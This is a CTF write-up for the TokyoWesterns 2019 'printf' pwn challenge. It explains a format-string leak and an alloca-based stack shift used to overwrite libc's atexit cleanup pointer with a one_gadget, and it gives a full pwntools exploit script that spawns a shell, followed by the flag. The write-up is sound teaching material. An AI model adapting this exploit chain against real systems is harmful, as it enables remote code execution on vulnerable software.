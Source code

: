 ```yaml
---
layout: post
title: "TokyoWesterns CTF 5th 2019: Pwn - printf"
modified: 2019-09-03
tags: twctf, twctf2019quals, pwn
---
```


The challange implemented a custom printf function which was called on our two inputs then the program exited. This opened a format string vulnerability, which made it possible to leak out important stack/libc/etc base addresses, but `%n` was not implemented, so we could not write the memory.

Fortunately for us, it used an uncontrolled `alloca` aka. `sub rsp, rax` where the parameter was the predicted output buffer length which could be controlled by us using constructs like `%1000d` which generated a 1000 byte length buffer on the stack with `alloca`.

This made possible to set `rsp` to any lower memory address, and even write into libc's memory.

Somehow a bunch of pages which included also pointers were not read-only on Ubuntu 19.04 with libc 2.29. This was a weird behavior as the situation was much better on Ubuntu 18.04... I don't know why they changed it, but whatever, this made the exploitation much easier (possible)!

I tried to overwrite a bunch of targets with OneGadget RCE, but at the end I replaced `_IO_cleanup` in the `libc_atexit` array which was called at the exit :D

```
pwndbg> telescope &__elf_set___libc_atexit_element__IO_cleanup__ 10
00:0000│   0x7ffff7fbf6c8 (__elf_set___libc_atexit_element__IO_cleanup__) —▸ 0x7ffff7e6af50 (_IO_cleanup) ◂— push   r15
```

Here is my full exploit:

{% highlight python %}
from pwn import *

REMOTE = True
if REMOTE:
    p = remote('printf.chal.ctf.westerns.tokyo', 10001)
else:
    p = process('./printf')
    print 'pid = %r' % p.pid

print "%lx "*40

p.sendlineafter("What's your name?", "%lx "*60)
p.recvline()
p.recvline()
leakStr = p.recvline()
leaks = [int(x,16) for x in leakStr.strip().split(' ')]
print '%r' % ['0x%x' % x for x in leaks]

libcBase   = leaks[ 2] - 0x7f6c93377024 + 0x7f6c9328f000 - 0x25000
bufStart   = leaks[50] - 0x7ffedbe84d40 + 0x7ffedbe84b50
prgBase    = leaks[49] - 0x5555555550d0 + 0x555555554000
ptrAddr    = libcBase - 0x7f07af04f000 + 0x7f07af210598 + 0x25000
system     = libcBase - 0x7f6c67f88000 + 0x7f6c67fb5fd0 + 0x25000
oneGadget  = libcBase + 0xe2383
stdoutGot  = prgBase + 0x5020
stdoutLibc = libcBase - 0x155555330000 + 0x155555515760 
runAtExit  = libcBase + 0x1E66C8
print 'libcBase = 0x%x, bufStart = 0x%x, prgBase = 0x%x, ptrAddr = 0x%x, stdoutGot = 0x%x, stdoutLibc = 0x%x, system = 0x%x, oneGadget = 0x%x' % (libcBase, bufStart, prgBase, ptrAddr, stdoutGot, stdoutLibc, system, oneGadget)

value = 0x414141
diff = bufStart - runAtExit - 0x223 + 0x5D + 0x20 + 6

# 0xe237f execve("/bin/sh", rcx, [rbp-0x70])
# constraints:
#   [rcx] == NULL || rcx == NULL
#   [[rbp-0x70]] == NULL || [rbp-0x70] == NULL
# 
# 0xe2383 execve("/bin/sh", rcx, rdx)
# constraints:
#   [rcx] == NULL || rcx == NULL
#   [rdx] == NULL || rdx == NULL
# 
# 0xe2386 execve("/bin/sh", rsi, rdx)
# constraints:
#   [rsi] == NULL || rsi == NULL
#   [rdx] == NULL || rdx == NULL
# 
# 0x106ef8 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL
payload = "%"+str(diff)+"d"+"A"*3+"B"*8+"C"*(8+5)+"D"*6+p64(oneGadget)+"E"*2
print 'payload (len=%d) = %r' % (len(payload), payload)

if not REMOTE:
    print "waiting..."
    raw_input()

p.sendlineafter("Do you leave a comment?", payload)
p.interactive()
{% endhighlight %}

And the flag was:

{% highlight text %}
TWCTF{Pudding_Pudding_Pudding_purintoehu}
{% endhighlight %}
